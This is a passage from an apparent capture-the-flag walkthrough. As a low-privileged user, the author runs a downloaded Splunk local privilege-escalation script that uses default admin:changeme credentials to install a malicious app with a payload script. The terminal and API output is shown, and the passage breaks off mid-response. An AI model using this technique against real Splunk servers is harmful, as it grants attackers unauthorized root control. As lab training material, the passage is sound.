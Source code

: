     spelunker.sh.1      100%[===================>]   2,44K  --.-KB/s    in 0s

    2020-09-29 11:22:03 (254 MB/s) - ‘spelunker.sh.1’ saved [2503/2503]

Then, we give the execution permission to the script and run it.

    :::text
    shaun@doctor:/tmp$ chmod +x spelunker.sh.1
    chmod +x spelunker.sh.1
    shaun@doctor:/tmp$ ./spelunker.sh.1
    ./spelunker.sh.1

    [!] SPLUNK LOCAL PRIVESC [!]
    [!] This tool assumes the creds are admin:changeme
    [!] and the port is 8089

    [*] Creating a tmp workspace and moving there...

    [*] Creating the splunk app...

    [*] Creating the payload...

    Tarballing the App and removing temp files...
    ./APPY/
    ./APPY/bin/
    ./APPY/bin/pay.sh
    ./APPY/local/
    ./APPY/local/inputs.conf
    [*] App should be created...


    [*] Installing the malicious splunk app....
    HTTP/1.1 201 Created
    Date: Tue, 29 Sep 2020 09:22:31 GMT
    Expires: Thu, 26 Oct 1978 00:00:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, max-age=0
    Content-Type: text/xml; charset=UTF-8
    X-Content-Type-Options: nosniff
    Content-Length: 4342
    Vary: Cookie, Authorization
    Connection: Close
    X-Frame-Options: SAMEORIGIN
    Server: Splunkd

    <?xml version="1.0" encoding="UTF-8"?>
    <?xml-stylesheet type="text/xml" href="/static/atom.xsl"?>
    <feed xmlns="http://www.w3.org/2005/Atom" xmlns:s="http://dev.splunk.com/ns/rest" xmlns:opensearch="http://a9.com/-/spec/opensearch/1.1/">
      <title>localapps</title>
      <id>https://127.0.0.1:8089/services/apps/local</id>
      <updated>2020-09-29T11:22:31+02:00</updated>
      <generator build="a1a6394cc5ae" version="8.0.5"/>
      <author>
        <name>Splunk</name>
      </author>
      <link href="/services/apps/local/_new" rel="create"/>
      <link href="/services/apps/local/_reload" rel="_reload"/>
      <opensearch:totalResults>1</opensearch:totalResults>
      <opensearch:itemsPerPage>30</opensearch:itemsPerPage>
      <opensearch:startIndex>0</opensearch:startIndex>
      <s:messages/>
      <entry>
        <title>APPY</title>
        <id>https://127.0.0.1:8089/servicesNS/nobody/system/apps/local/APPY</id>
        <updated>1970-01-01T01:00:00+01:00</updated>
        <link href="/servicesNS/nobody/system/apps/local/APPY" rel="alternate"/>
        <author>
          <name>nobody</name>